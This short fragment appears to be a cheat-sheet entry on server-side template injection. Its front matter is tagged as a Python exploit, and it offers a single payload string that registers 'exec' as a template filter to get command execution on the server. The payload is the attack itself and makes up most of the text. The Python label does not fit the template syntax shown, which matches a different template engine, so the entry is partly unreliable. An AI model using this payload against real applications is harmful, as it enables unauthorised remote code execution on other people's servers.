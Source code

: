 ```yaml
---
exploit: template-injection
language: python
tags: python
---
```



We can use a simple command to get code execution:

```
{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('uname')}}
```